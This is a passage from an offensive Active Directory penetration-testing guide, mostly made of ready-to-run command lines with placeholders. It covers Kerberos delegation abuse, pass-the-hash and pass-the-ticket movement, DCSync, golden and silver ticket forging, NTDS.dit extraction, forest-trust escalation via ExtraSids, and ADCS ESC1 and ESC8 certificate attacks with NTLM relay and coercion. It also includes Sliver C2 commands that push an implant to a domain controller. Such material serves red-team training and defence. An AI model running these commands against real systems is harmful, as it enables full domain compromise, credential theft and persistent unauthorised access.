.\Rubeus.exe monitor /interval:5 /filteruser:[dc]$ /nowrap .\SpoolSample.exe [dc].[domain] [unconstrained-host].[domain] .\mimikatz.exe "lsadump::dcsync /domain:[domain] /user:[domain]\krbtgt" -
.\Rubeus.exe hash /password:[password] .\Rubeus.exe s4u /user:[svc] /rc4:[ntlm] /impersonateuser:administrator /msdsspn:cifs/[target].[domain] /ptt# Request a delegated service ticket while impersonating Administrator impacket-getST -spn cifs/[target].[domain] -impersonate Administrator [domain]/[svc]:'[password]' -dc-ip [dc-ip] # Use the resulting ccache for Kerberos-authenticated remote execution KRB5CCNAME=Administrator.ccache impacket-psexec -k -no-pass [target].[domain] -
# Create a controlled computer account for the RBCD primitive impacket-addcomputer [domain]/[user]:'[password]' -computer-name '[controlled]$' -computer-pass '[computer-pass]' -dc-ip [dc-ip] # Write msDS-AllowedToActOnBehalfOfOtherIdentity on the target computer python3 rbcd.py -delegate-from '[controlled]$' -delegate-to '[target]$' -dc-ip [dc-ip] -action write [domain]/[user]:'[password]' # Request a service ticket to the target as Administrator using the controlled computer account impacket-getST -spn cifs/[target].[domain] -impersonate Administrator [domain]/'[controlled]$':'[computer-pass]' -dc-ip [dc-ip]
20.7 Lateral Movement with Passwords, Hashes, and Tickets
AD lateral movement usually reuses authentication material rather than exploits memory corruption. Passwords, NTLM hashes, TGTs, TGS tickets, and Kerberos ccaches each unlock different movement paths. Use hostnames for Kerberos paths and IPs when intentionally forcing NTLM.
Methodology
-
# Test the credential as a local account on each host nxc smb [subnet]/24 -u [user] -p '[password]' --local-auth # Test the credential as a domain account over SMB nxc smb [subnet]/24 -d [domain] -u [user] -p '[password]' # Test the credential for WinRM access nxc winrm [subnet]/24 -d [domain] -u [user] -p '[password]' -
# Check local-admin access with a local NTLM hash nxc smb [target] -u [user] -H [ntlm] --local-auth # Pass-the-hash via SMB service creation; noisier, often returns SYSTEM impacket-psexec [domain]/[user]@[target] -hashes :[ntlm] # Pass-the-hash via WMI; usually quieter and runs as the supplied user context impacket-wmiexec [domain]/[user]@[target] -hashes :[ntlm] # Pass-the-hash into WinRM when the target allows remote PowerShell evil-winrm -i [target] -u [user] -H [ntlm] -
.\Rubeus.exe asktgt /user:[user] /domain:[domain] /rc4:[ntlm] /ptt klist PsExec64.exe \\[host].[domain] cmd.exe -
.\Rubeus.exe dump /nowrap .\Rubeus.exe ptt /ticket:[base64-ticket] klist# Point Impacket at the Kerberos ccache export KRB5CCNAME=[ticket].ccache # Use Kerberos authentication instead of password/hash authentication impacket-psexec -k -no-pass [host].[domain]
20.8 DCSync, Golden Tickets, Silver Tickets, and NTDS.dit
Domain dominance begins when you can obtain replication material or the AD database. DCSync impersonates a Domain Controller replication request and retrieves password data without dumping LSASS. Golden tickets require the krbtgt hash and forge TGTs; silver tickets require a service account hash and forge service tickets for a specific SPN. NTDS.dit extraction via shadow copy is a direct database theft path once you control a DC.
Methodology
-
.\mimikatz.exe "lsadump::dcsync /domain:[domain] /user:[domain]\krbtgt" .\mimikatz.exe "lsadump::dcsync /domain:[domain] /all /csv"# DCSync only the krbtgt account, typically for golden-ticket material impacket-secretsdump [domain]/[user]:'[password]'@[dc-ip] -just-dc-user krbtgt # DCSync all domain credential material impacket-secretsdump [domain]/[user]:'[password]'@[dc-ip] -just-dc -
whoami /user .\mimikatz.exe "kerberos::purge" "kerberos::golden /user:[existing-user] /domain:[domain] /sid:[domain-sid] /krbtgt:[krbtgt-ntlm] /ptt" "misc::cmd" -
.\mimikatz.exe "kerberos::golden /sid:[domain-sid] /domain:[domain] /ptt /target:[host].[domain] /service:cifs /rc4:[service-ntlm] /user:[user]" -
vshadow.exe -nw -p C: copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[ID]\Windows\NTDS\ntds.dit C:\ntds.dit.bak reg.exe save hklm\system C:\system.bakimpacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
20.9 Trust and Forest Exploitation
After fully compromising a child domain, parent/child trust relationships can be abused to reach the forest root. The ExtraSids field in Kerberos validation data can carry root-domain privileged group SIDs, allowing a child-domain golden ticket to include Enterprise Admin-like authorization when processed across the trust.
Methodology
-
Get-DomainSID -Domain [child-domain] Get-DomainSID -Domain [root-domain] .\mimikatz.exe "lsadump::dcsync /domain:[child-domain] /user:[child-netbios]\krbtgt"# Resolve the child-domain SID from Linux impacket-lookupsid [child-domain]/[user]:'[password]'@[child-dc-ip] 0 # Resolve the root-domain SID across the trust impacket-lookupsid [child-domain]/[user]:'[password]'@[root-dc-ip] 0 # DCSync the child-domain krbtgt hash after child-domain compromise impacket-secretsdump [child-domain]/[admin-user]:'[password]'@[child-dc-ip] -just-dc-user krbtgt -
.\mimikatz.exe "kerberos::golden /user:[user] /domain:[child-domain] /sid:[child-sid] /krbtgt:[child-krbtgt-ntlm] /sids:[root-sid]-519 /ptt"# Build the trust-abuse TGT from Linux; [root-sid]-519 is Enterprise Admins impacket-ticketer -nthash [child-krbtgt-ntlm] -domain-sid [child-sid] -domain [child-domain] -extra-sid [root-sid]-519 [user] # Load the forged Kerberos ticket for Impacket tools export KRB5CCNAME=[user].ccache -
dir \\[root-dc].[root-domain]\c$ klist# Confirm the forged ticket is loaded klist # Use hostnames/FQDNs so Kerberos is used across the trust impacket-psexec -k -no-pass [root-dc].[root-domain] impacket-wmiexec -k -no-pass [root-dc].[root-domain]
20.10 JEA and JIT Abuse Paths
Just Enough Administration (JEA) and Just-In-Time (JIT) access are defensive controls, but they can become privilege escalation paths when their surrounding workflow is compromised. JEA breakout focuses on allowed commands that can write files, restart services, or load controlled content. JIT abuse focuses on compromising requesters/approvers, mapping GPO-backed local admin groups, refreshing Kerberos tickets, and using the temporary group membership before it expires.
Methodology
-
Get-PSSessionConfiguration Enter-PSSession -ComputerName [host] -ConfigurationName [jea-config] Get-Command Get-Command | ? {$_.Name -match 'Copy|Set|New|Restart|Start|Import'} -
Get-ADOptionalFeature -Filter * | ? {$_.Name -like '*Privileged*'} Get-DomainGroup | select name,description,member Get-DomainGPO | select displayname,gpcfilesyspath Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators -
klist purge Enter-PSSession -ComputerName [target-host] whoami /groups
21. Active Directory Certificate Services
21.1 ADCS Theory
Active Directory Certificate Services (ADCS) is Microsoft's PKI implementation built on top of Active Directory. It issues X.509 certificates used for authentication, encryption, and code signing across the enterprise. The complexity of managing a PKI in a large environment creates fertile ground for misconfigurations that can lead to full domain compromise.
Certificates contain two fields critical to attackers: the SubjectAlternativeName (SAN), which can specify additional usernames for authentication certificates, and Extended Key Usages (EKU), which dictates what the certificate can be used for. If a certificate carries an authentication EKU and we can control the SAN, we can authenticate as any user in the domain.
| EKU Object Identifier | Purpose | Auth Capable |
|---|---|---|
| 1.3.6.1.5.5.7.3.2 | Client Authentication | Yes |
| 1.3.6.1.5.5.7.3.1 | Server Authentication | Yes |
| 1.3.6.1.4.1.311.18.2.2 | Smart Card Logon | Yes |
| 1.3.6.1.5.5.7.3.4 | Email Protection | No |
| 1.3.6.1.5.5.7.3.8 | Time Stamping | No |
ADCS adds its root CA certificate to the Trusted Root Certification Authorities store on all domain-joined machines, making issued certificates automatically trusted. Certificate enrollment is available via a web service at http://[ca-host]/certsrv/. Certificate templates streamline administration by providing preset configurations that admins can clone and publish to the enrollment service.
21.1.1 ADCS Certificate Request Flow
- User sends a Certificate Signing Request (CSR) to the CA enrollment service.
- The CA checks whether the requesting identity has enrollment permissions on the template.
- The CA checks whether manager approval is required and whether an authorized signature is needed.
- The CA applies template settings (EKU, SAN flags) and signs the certificate.
- The signed certificate is returned to the requester in PEM or DER format.
Methodology
-
sliver (SESSION) > execute-assembly /opt/tools/Certify.exe find /vulnerable -
certipy-ad find -u '[user]@[domain]' -p '[password]' -dc-ip [dc-ip] -enabled -
cat [certipy-output].txt | grep -A 30 "Vulnerabilit"
21.2 ESC1 — Misconfigured Certificate Templates
ESC1 is the most commonly exploited ADCS misconfiguration. It requires four conditions to be simultaneously present: low-privileged users have enrollment rights on the template, manager approval is disabled, no authorized signature is required for the CSR, and the template allows the enrollee to supply a SAN. When all four conditions are met, any domain user can request an authentication certificate for any account, including Domain Admins.
| Condition | Template Flag / Setting | Vulnerable Value |
|---|---|---|
| Low-priv enrollment rights | Enrollment Permissions | Domain Users / Authenticated Users |
| Manager approval disabled | mspki-enrollment-flag | No approval required |
| No authorized signature | Authorized Signatures Required | 0 |
| Enrollee supplies SAN | msPKI-Certificate-Name-Flag | ENROLLEE_SUPPLIES_SUBJECT |
The attack chain converts the PEM certificate returned by the CA to PFX format using OpenSSL, then uses Rubeus to request a TGT using PKINIT. The resulting TGT is injected into memory, granting the privileges of the specified alternate subject user.
21.2.1 Related ESC Variants
| ESC | Description | Key Difference from ESC1 |
|---|---|---|
| ESC1 | Enrollee supplies SAN + auth EKU + open enrollment | Baseline misconfiguration |
| ESC2 | Any Purpose EKU or no EKU restriction | EKU allows any purpose including authentication |
| ESC3 | Certificate Request Agent template abused for enrollment-on-behalf-of | Two-step enrollment via agent certificate |
| ESC4 | Weak ACL on template object allows write access | Attacker can modify template to enable ESC1 conditions |
| ESC7 | Weak ACL on the CA itself | Attacker can modify CA-wide permissions |
| ESC8 | NTLM relay to HTTP web enrollment endpoint | No template write needed; coerce DC auth instead |
Methodology
-
sliver (SESSION) > execute-assembly /opt/tools/Certify.exe find /vulnerable -
sliver (SESSION) > execute-assembly /opt/tools/PowerView.ps1 # Run directly on host: . .\PowerView.ps1 Get-DomainGroupMember -Identity 'Domain Admins' -
sliver (SESSION) > execute-assembly /opt/tools/Certify.exe request /ca:[ca-host]\[ca-name] /template:[template-name] /altname:[da-user] -
# On compromised host: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx -
sliver (SESSION) > execute-assembly /opt/tools/Rubeus.exe asktgt /user:[da-user] /certificate:cert.pfx /password:[pfx-password] /ptt -
dir \\[dc]\c$
21.3 ESC8 — NTLM Relay to ADCS HTTP Endpoints
The ADCS web enrollment service at http://[ca-host]/certsrv/ uses HTTP (not HTTPS by default) and accepts only NTLM authentication. This makes it a natural relay target. An attacker coerces a privileged account — typically a Domain Controller machine account — into authenticating over SMB to the attacker's machine, which relays those credentials to the CA web enrollment service and requests a certificate on the DC's behalf.
Even when HTTPS is enabled, the enrollment service remains vulnerable unless Extended Protection for Authentication (EPA/channel binding) is explicitly configured on IIS, which is not the default. The result of a successful relay is a PFX certificate for the DC machine account, which can be used with Certipy's PKINIT support to extract the DC's NTLM hash and then DCSync all domain credentials.
21.3.1 Attack Prerequisites
| Requirement | Detail |
|---|---|
| ADCS web enrollment enabled | HTTP endpoint reachable at http://[ca-host]/certsrv/ |
| DomainController template enabled | Default template with Client Authentication EKU |
| No channel binding (EPA) | IIS Extended Protection for Authentication not configured |
| Coercion capability | Access to a coercion tool (PetitPotam variants, Coercer) |
| SOCKS proxy on compromised host | Required for Certipy/Impacket to reach internal ADCS |
21.3.2 Authentication Coercion: PetitPotam / Coercer
CVE-2021-36942 (PetitPotam) exposed the EfsRpcOpenFileRaw RPC call as a coercion primitive. Microsoft patched this specific call but left over 30 equivalent RPC commands unpatched, including EfsRpcAddUsersToFile and EfsRpcQueryRecoveryAgents. The Coercer tool wraps all weaponizable RPC commands and can force any Windows host to authenticate outbound to an attacker-controlled listener.
Methodology
-
sudo apt install certipy-ad coercer -y -
sliver (SESSION) > socks5 start --host 127.0.0.1 --port 1080 -
proxychains certipy-ad find -u '[user]@[domain]' -p '[password]' -dc-ip [dc-ip] -enabled -
impacket-ntlmrelayx -t http://[ca-ip]/certsrv/certfnsh.asp --adcs --template DomainController -smb2support -
coercer coerce --target-ip [dc-ip] -l [kali-ip] -u [user] -p '[password]' --filter-method-name EfsRpcAddUsersToFile -
# impacket-ntlmrelayx output (example): # [*] GOT CERTIFICATE! ID 7 # [*] Writing PKCS#12 certificate to ./DC08$.pfx -
certipy-ad auth -pfx [dc-machine]$.pfx -dc-ip [dc-ip] -
impacket-secretsdump '[domain]/[dc-machine]$@[dc-ip]' -hashes 'aad3b435b51404eeaad3b435b51404ee:[dc-ntlm-hash]' -
impacket-psexec '[domain]/Administrator@[dc-ip]' -hashes 'aad3b435b51404eeaad3b435b51404ee:[admin-ntlm-hash]'
21.4 Post-Exploitation via Certificates
Certificates obtained through ADCS abuse differ from password-based credentials in one important way: they remain valid for the lifetime of the certificate (often one year) regardless of account password changes. This makes them useful for maintaining persistence even after a blue team resets compromised account passwords.
The PKINIT authentication flow produces a TGT and also allows retrieval of the account's NTLM hash using the PKINIT PA-PK-AS-REP structure. Certipy automates this hash extraction in the auth subcommand. The hash can then be used for pass-the-hash attacks without requiring the plaintext password.
| Artifact | Tool | Use Case |
|---|---|---|
| PFX certificate (user account) | Rubeus asktgt | TGT injection for ESC1 DA impersonation |
| PFX certificate (machine account) | Certipy auth | Extract NTLM hash via PKINIT for DCSync |
| NTLM hash (DA) | impacket-secretsdump | Dump all NTDS.DIT credentials |
| NTLM hash (DA) | impacket-psexec / wmiexec | |
| ccache file | Certipy auth output | Linux Kerberos ticket for proxied access |
Methodology
-
certipy-ad auth -pfx [dc-machine]$.pfx -dc-ip [dc-ip] # Outputs: [dc-machine].ccache and NT hash -
export KRB5CCNAME=[dc-machine].ccache -
impacket-secretsdump '[domain]/[dc-machine]$@[dc-ip]' -hashes 'aad3b435b51404eeaad3b435b51404ee:[dc-ntlm-hash]' -
sliver (SESSION) > execute-assembly /opt/tools/Rubeus.exe asktgt /user:[da-user] /certificate:cert.pfx /password:[pfx-password] /ptt sliver (SESSION) > psexec --hostname [dc] --service-name [svc-name] --service-description "Service" /opt/implants/implant.exe -
sliver (SESSION) > execute-assembly /opt/tools/SharpWhoami.exe # Confirm: NT AUTHORITY\SYSTEM or DA context